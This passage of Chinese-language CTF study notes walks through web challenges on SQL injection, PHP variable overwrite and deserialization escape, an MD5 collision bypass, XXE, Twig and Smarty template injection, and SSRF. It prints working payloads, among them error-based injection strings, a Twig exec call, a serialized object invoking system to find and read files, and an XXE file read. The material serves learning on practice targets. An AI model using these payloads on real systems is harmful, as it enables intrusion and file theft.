1'or(updatexml('~',concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'SCHEMA_NAME'),'~'),'~'))#爆表名
1'or(updatexml('~',concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like'geek'),'~'),'~'))%23

1'or(updatexml('~',concat('~',(select((group_concat(COLUME_NAME,'~',))from(DB.TABLE_NAME)),'~'),'~'))#爆数据 
```

### extractvalue()报错注入

```
查数据库名：id='and(select extractvalue(1,concat(0x7e,(select database()))))
爆表名：id='and(select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))
爆字段名：id='and(select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="TABLE_NAME"))))
爆数据：id='and(select extractvalue(1,concat(0x7e,(select group_concat(COIUMN_NAME) from TABLE_NAME)))) 
```

### sql left right 函数

LEFT(ARG,LENGTH)、RIGHT(ARG,LENGTH)

LEFT、RIGHT函数返回ARG最左边、右边的LENGTH个字符串，ARG可以是CHAR或BINARY STRING。

substr

### substr()函数

substr(字符串,截取开始位置,截取长度) //返回截取的字

substr(‘Hello World’,0,1) //返回结果为 ‘H’ *从字符串第一个字符开始截取长度为1的字符串

substr(‘Hello World’,1,1) //返回结果为 ‘H’ *0和1都是表示截取的开始位置为第一个字符

substr(‘Hello World’,2,4) //返回结果为 ‘ello’

substr(‘Hello World’,-3,3)//返回结果为 ‘rld’ *负数(-i)表示截取的开始位置为字符串右端向左数第i个字符

### sql关键字过滤的绕过（持续更新）

总结博客

# [极客大挑战 2019]Http

### http协议

*   要求从某个IP或者主机访问，一般是修改X-Forwarded-For,X-Forwarded-Host,CLIENT-IP,host参数的值。

*   要求从某个国家访问，一般是修改Accept-Language。

*   要求从某个页面访问是修改referer。

    要求某个浏览器，一般修改User-Agent

    # [BJDCTF2020]Mark loves cat

    首先用dirsearch扫一下目录 发现git泄露 使用GitHack获取源码

    ```
    - <?php
      include 'flag.php';
      $yds = "dog";
      $is = "cat";
      $handsome = 'yds';

      foreach($_POST as $x => $y){
          $$x = $y;
      }

      foreach($_GET as $x => $y){
          $$x = $$y;
      }

      foreach($_GET as $x => $y){
          if($_GET['flag'] === $x && $x !== 'flag'){	
              exit($handsome);
          }
      }

      if(!isset($_GET['flag']) && !isset($_POST['flag'])){	
          exit($yds);
      }

      if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){	
          exit($is);
      }

      echo "the flag is: ".$flag;
      ?> 
    ```

先看这部分

```
foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){	
        exit($handsome);
    }
} 
```

这段代码要求找到get输入中的flag键，且与传参x强等于，且传入的x不强等于flag。这肯定不能用handsome输出flag

所以再看这一段

```
if(!isset($_GET['flag']) && !isset($_POST['flag'])){	
    exit($yds);
} 
```

相比上一段，yds参数显然更可控，输入yds=flag. 当 x = x= x=y 即 y d x = ydx= ydx=flag这样就成功输出了$flag 里的内容

**本题利用了php可控变量的变量覆盖漏洞，和exit函数进行输出**

## php exit()函数

exit函数的作用是输出一则消息并且终止当前脚本。

## [安洵杯 2019]easy_web

### 题解

首先打开网页，发现url里别有一番天地

```
http://840f452d-e5d2-4250-9c0d-973c20d06deb.node3.buuoj.cn/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd= 
```

发现img后跟的字符串好像base，解密。两重解密过后，发现类似与16进制字符串

再hex解密为555.png 结合网页左上角的图片，猜测是文件包含。

于是我们把index.php按照加密逻辑反加密回去，放入img

ctrl-u 发现index.php的源码，

```
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?> 
```

找到关键代码

```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    } 
```

一个md5强绕过

附上一组强绕过字符串

a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

啊我们通过post进行了强绕过

传入的cmd就用它搞点事把。输入dos命令

```
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>"; 
```

ls被过滤了呢，那就用dir把。

## DOS dir()

**dir 类似于ls 使用 也可以 dir / 查找根目录**

```
dir/b 
```

*   生成文件目录树，常见于 github 中

    ```
    tree		查看文件夹目录结构
    tree /f		查看文文件目录结构 
    ```

    效果

    ```
    F:.
    ├───Adobe Illustrator(AI) CS6 破解补丁
    │   └───破解补丁
    │       ├───32
    │       └───64
    └───photpshopCS6破解补丁
        ├───32
        └───64 
    ```

    查看文件类型

    ```
    dir /ad		只查看文件夹
    dir /a-d	只查看文件
    dir /ah		查看隐藏文件 
    ```

    查看文件方式

    ```
    dir /w		按款列表查看
    tree		以树状显示文件列表
    dir /b		无摘要显示
    dir /on		按名称查看
    dir /os 	按大小查看
    dir /od 	按时间查看
    dir /oe	    按后缀查看 
    ```

    ## cat过滤的绕过

    ```
    ca\t%20/f\l\a\g ca\t%20flag 
    ```

    ca\t 后面的\t会成为 TAB 而绕过

    举一反三？

    # 2020-网鼎杯-朱雀组-Web-phpweb

    ## 利用表单查看 输入类型

    

这里method显示他是post型传参，有两个变量分别为func 和p

发现func的初始值为date 而页面显示时间， php有date()函数

于是我们尝试 查源码，利用file_get_contents()

# call_user_func(函数名，参数) 回调函数



我们利用file_get_contents 函数获取源码

payload：

func=file_get_contents&p=index.php

源码：

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?> 
```

这里有个好长一串的黑名单，为了绕过他，我们想到了反序列化方式

首先要用find找一找flag在哪，然后利用cat命令搞到flag

### 知识点：寻找flag文件常用命令小结：

```
system(‘ls’) : 列举当前目录下的所有文件
system(“find / -name flag*”)：查找所有文件名匹配flag*的文件
system(“cat $(find / -name flag*)”)：打印所有文件名匹配flag*的文件 
```

最终payload：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:25:"cat $(find / -name flag*)";s:4:"func";s:6:"system";} 
```

## [NCTF2019]Fake XML cookbook

## XXE 漏洞

XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，**导致可上传恶意xml文件**。

#### xml恶意实体构建

```
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user> 
```

# [ASIS 2019]Unicorn shop

特别特别好玩der题

进入页面，让买东西

输入 商品id 1 price 2.0 试试

提示只能输入字符

然后输入商品id 1 price 2 提示购买错误

然后提示price内只能输入一个字符，第四个商品却价值一千多块钱，买不了啊

看来这个题就是想让我们买第四个商品

我们需要转换过后数值大于1337的unicode字符

### unicode 亿

亿这个字符，作为unicode 转化为数值大小为一亿，记住就好了。

# [BJDCTF2020]Cookie is so stable

## Twig模板注入

https://www.k0rz3n.com/2018/11/12/一篇文章带你理解漏洞之SSTI漏洞

### 过程

打开网页 发现啥也没有，然后进入flag页面是个输入框。

尝试经典{{7*7}}发现存在ssti

附一个ssti检测流程图



其中`{{7*7}}`在**Twig**中返回`49`，在**Jinja2**中返回的是`7777777`，由此判断出为**Twig模版注入**

由于提示了cookie

我们就抓包看看cookie

上传一个参数抓包，repeat发现有个set cookie



放包，抓登陆后页面的包， cookie中多了一个user，这应该就是注入点了。

上网搜索twig模板ssti的payload 传入user再repeater就可了

payload：

```
user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat flag")}} 
```

## [BSidesCF 2020]Had a bad day

## 题解

进入页面 有两个按钮，click，出现一只小喵，一只小汪的图片。

观察url 发现get传参

猜测为文件包含

尝试读取源码。

resource为index.php 报错。猜测自动补齐后缀

尝试index 得到源码

```
<?php
$file = $_GET['category'];

​if(isset($file))
​	{
​		if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index"))
  {
​	include ($file . '.php');
​		}
​else{
​		echo "Sorry, we currently only support woofers and meowers.";
​}
​	}
​?> 
```

发现需要woofers或meowers一个为真才能读取

这里需要利用filter协议的一个小trick：
php://filter可以套一层协议，像这样

?category=php://filter/convert.base64-encode/**woofers**/resource=flag

# [WUSTCTF2020]朴实无华

## 知识点

### intval()`函数科学计数法绕过

如果变量是字符型，该函数则会先将变量转换成做整型再做处理。那么我们就可以利用16进制数来绕过，因为16进制数以0x开头，且在$num中以字符型存储，所以转换成整型后的值就是0。
如图：



### 网页**Unicode**编码

当网页出现一堆汉字乱码时，切换firefox的查看-编码-unicode

### 变量`md5()`加密后与原值相等

收录一个这样的字符串：0e215962017

### `nl`、`tac`等替代`cat`命令

#### nl

nl 命令 可以将输出的文件内容自动的加上行号！其默认的结果与 cat -n 有点不太一样， nl 可以将行号做比较多的显示设计，包括位数与是否自动补齐 0 等等的功能。因此可以用来替代cat 输出自动匹配行号的文件内容

命令格式：

nl [选项]… [文件]…

样例：

> [root@localhost test]# nl log2012.log
> 1 2012-01
> 2 2012-02
> 3 ======[root@localhost test]#

#### 命令参数：

-b ：指定行号指定的方式，主要有两种：

-b a ：表示不论是否为空行，也同样列出行号(类似 cat -n)；

-b t ：如果有空行，空的那一行不要列出行号(默认值)；

-n ：列出行号表示的方法，主要有三种：

-n ln ：行号在萤幕的最左方显示；

-n rn ：行号在自己栏位的最右方显示，且不加 0 ；

-n rz ：行号在自己栏位的最右方显示，且加 0 ；

-w ：行号栏位的占用的位数。

-p 在逻辑定界符处不重新开始计算。

#### tac

倒序显示文件内容

反向cat

## 过程

扫后台 发现robots.txt

进入 发现fake_flag文件

访问抓包 发现look_up :fl4g.php 访问 发现有许多乱码的源码

用火狐切换unicode 清除乱码

得到源码：

```
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

leval3层

##### leval 1

intval()科学计数法绕过

payload: 找一个大于2020的数转换为Hex

##### leval 2

md5 绕过

payload 为特殊字符串

##### leval 3

ls到flag文件

利用nl命令 替代cat命令得到flag

## [安洵杯 2019]easy_serialize_php

## 知识点

### 变量覆盖

### 代码审计

### 反序列化中的对象逃逸

## 题解

```
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); 
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

先审计代码

```
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
} 
```

过滤关键词的函数

```
if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST); 
```

### unset()

**unset()** 销毁指定的变量。

如果在函数中 **unset()** 一个全局变量，则只是局部变量被销毁，而在调用环境中的变量将保持调用 **unset()** 之前一样的值。

##### 实例

```
<?php
function destroy_foo() {
  global $foo;
  unset($foo);
}

$foo = 'bar';
destroy_foo();
echo $foo;
?> 
```

以上例程会输出：

```
bar 
```

##### 实例2

```
<?php
function foo(&$bar) { 
	unset($bar); 
	$bar = "blah";
}
	$bar = 'something';
	echo "$bar\n";foo($bar);echo "$bar\n";
?> 
```

以上例程会输出：

```
something
something 
```

### PHP extract() 函数

extract() 函数从数组中将变量导入到当前的符号表。

#### 实例

```
<?php
$a = "Original";
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "\$a = $a; \$b = $b; \$c = $c";
?> 
```

#### 输出

```
$a=Cat,$b=Dog,$c=Horse 
```

根据源码提示。传参 f=phpinfo

打开phpinfo 在里面找一哈

找到文件d0g3_f1ag.php被自动包含。

尝试直接文件包含访问，发现访问不了。

根据

```
else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

我们发现可以构建php反序列化逃逸访问d0g3_f1ag.php

## PHP 反序列化逃逸

payload1: 值逃逸，需要两个连续的键值对，由第一个的值覆盖第二个的键，这样第二个值就逃逸出去，单独作为一个键值对

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image 
```

1
var_dump的结果为：

```
"a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
1 
```

payload2: 键逃逸，只需要一个键值对就行了，我们直接构造会被过滤的键，这样值得一部分充当键，剩下得一部分作为单独得键值对

```
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
1 
```

var_dump的结果为：

```
"a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mbGxsbGxsYWc=";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}" 
```

#### 一篇php反序列化blog

[反序列化攻略](https://y4tacker.blog.csdn.net/article/details/113588692?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-3.control&dist_request_id=1332042.477.16191772930201431&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-3.control)

# [0CTF 2016]piapiapia

### php反序列化逃逸

#### 反序列化逃逸（转换后字符变多）

### 题解

进入是个登录框，尝试注入，未果。

那使用dirsearch（我的还没调好）和御剑扫描后台。 找到www.zip 下载下来，get全部源码

发现有register.php 注册页面，进入注册，并使用该账号密码登录。

审计一下register.php 的源码

```
 if(strlen($username) < 3 or strlen($username) > 16) 
		die('Invalid user name');

	if(strlen($password) < 3 or strlen($password) > 16) 
		die('Invalid password'); 
```

要求密码和用户名在3-16位之间。

然后进入update.php

```
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

​	$username = $_SESSION['username'];
​	if(!preg_match('/^\d{11}$/', $_POST['phone']))
​		die('Invalid phone');

​	if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
​		die('Invalid email');
​	
​	if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
​		die('Invalid nickname');
​	//各文件名检测

​	$file = $_FILES['photo'];
​	if($file['size'] < 5 or $file['size'] > 1000000)
​		die('Photo size error'); 
```

一堆正则匹配。主要是检测手机号必须十一位之类的可信性的。

然后规定了图片大小，这个也不太重要。

然后我们发现nickname只要长度大于十就可匹配 说明nickname是我们可利用的变量

然后我们审计一下profile.php

```
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');	
	}
	$username = $_SESSION['username'];
	$profile=$user->show_profile($username);
	if($profile  == null) {
		header('Location: update.php');
	}

else {
	$profile = unserialize($profile);
	$phone = $profile['phone'];
	$email = $profile['email'];
	$nickname = $profile['nickname'];
	$photo = base64_encode(file_get_contents($profile['photo']));

?> 
```

啊哈，有反序列化，有文件包含 我们就很明确了，我们要利用nickname篡改photo 的值为profile.php

也就是说，我们需要一个

```
a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:8:"1@qq.com";s:8:"nickname";s:3:"abc";s:5:"photo";s:10:"config.php";} 
```

这样的序列化字符串

ok那我们构造后半部分payload：

```
";}s:5:"photo";s:10:"config.php";} 
```

回去index.php找过滤函数

```
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

​	$safe = array('select', 'insert', 'update', 'delete', 'where');
​	$safe = '/' . implode('|', $safe) . '/i';
​	return preg_replace($safe, 'hacker', $string);
} 
```

过滤函数会把以上词变成hacker 我们利用唯一与hacker长度不同的where 本题中我们要溢出的是后半部分payload所有我们输入34个where作为前半部分payload 即可

最后进入超链接，复制base64加密图片的base64值解密即可得到flag

# [网鼎杯 2018]Fakebook

## dirsearch扫描目录

dirsearch.py -u url -e * --timeout=2 -t 1 -x 400,403,404,500,503,429

-u + url

-e + 网站语言

–timeout +最大未响应时间

-t 扫描线程

-x +以下访问码将被忽略的页面

## 知识点

sql注入

ssrf

bak备份文件

load_file 等sql函数(非预期解)

php反序列化

## 题解

首先打开环境

是一个登陆页面一个注册页面

我们随便注册一个账号，并登录

登陆页面中发现username被链接 点进去



然后发现url上多了一个no get传参

我们尝试sql注入

发现是整数型注入

那就注被

发现过滤了”union select“我们使用union/**/select绕过

接下来就和普通union注入一样了，

可以看到文件的绝对路径和**unserialize报错**

把注入放进第四列发现不报错了

说明第四列数据被进行了反序列化

然后反序列化+get函数中使用了curl 提到curl 不难想到ssrf

ssrf中我们经常利用file://协议读取文件内容。所以我们构造一个反序列化数据

```
<?php
class UserInfo
{
    public $name = "1";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";
}
$a=new UserInfo();
echo serialize($a); 
```

将结果作为第四列的参数传递过去，然后我们就得到了flag 的base64加密值.

做完后i回想，本题应该是

#### 非预期解

本题没有过滤load_file 函数，所以可以采用直接读取

```
?no=-1 union/**/ select1,load_file('/var/www/html/flag.php'),3,4-- + 
```

# [CISCN2019 华东南赛区]Web11

### 知识点

smarty模板下ssti

## 题解

根据题目名称，就可以猜到可能是 smarty ssti

进入页面发现显示ip 猜测注入点在xff头

抓包，在XFF头输入{7*7}测试

回显49 确认了存在ssti

然后采用smarty if 执行php代码

payload

{if readfile(’/flag’)}{/if}

博客引用

[smarty ssti 利用](https://blog.csdn.net/qq_38154820/article/details/106330138?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161934987416780366547926%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=161934987416780366547926&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-106330138.pc_search_result_hbase_insert&utm_term=smarty+ssti)

# [WesternCTF2018]shrine

## 知识点

python沙箱逃逸

ssti

python shrine 模块

python路由

## 题解

打开题目 获得源码

这个flask 模板 Python恕我看不懂 哈哈哈 附上某dalao的 注释

```
import flask//flask模板，首先就想到了想到了之前我写的一篇flask模板ssti逃逸

import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')//注册了一个名为FLAG的config，这里基本可以确定是flag。

@app.route('/')

def index():

return open(__file__).read()

@app.route('/shrine/<path:shrine>')//这里设置了shrine路由，这里可能会实现ssti

def shrine(shrine):

def safe_jinja(s)://jinja模板

​    s = s.replace('(', '').replace(')', '')

​    blacklist = ['config', 'self']//设置黑名单

​    return ''.join(['{}'.format(c) for c in blacklist]) + s//把黑名单的东西遍历并设为空

return flask.render_template_string(safe_jinja(shrine))//进行模块渲染

